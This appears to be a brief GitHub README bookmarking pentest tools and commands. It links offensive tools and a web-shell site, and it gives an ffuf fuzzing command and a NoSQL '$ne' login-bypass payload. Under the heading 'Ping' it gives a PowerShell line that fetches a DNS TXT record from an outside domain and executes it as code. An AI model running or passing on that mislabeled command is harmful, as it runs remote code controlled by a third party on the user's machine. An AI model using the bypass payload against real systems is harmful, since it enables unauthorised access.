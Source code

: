 # ac-bookmark
Free Tools and Source For Security Pentest .. 😎

```sh
https://github.com/jpillora/chisel
https://github.com/samratashok/nishang
https://github.com/411Hall/JAWS
https://github.com/unicorn-engine/unicorn
https://github.com/ropnop/kerbrute
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/cyberheartmi9/Frida-Guide/blob/main/Frida%20Guide/Frida%20Guide.md
https://www.r57shell.net

```

```sh
https://vulners.com
https://crt.sh
https://grep.app
```

### Command FUZZIng Check extension in request
```sh
ffuf -request 'file.req' -request-proto hhtp or https -w 'List extensions fuzzing' -ms 'size header+body'
```

### Ping 

```sh
powershell . (nslookup -q=txt mrmtwoj.ir)[-1]
```

### BYPass Sql inkect and json 
```sh
{"username":"admin","password":{"$ne":""}}
```
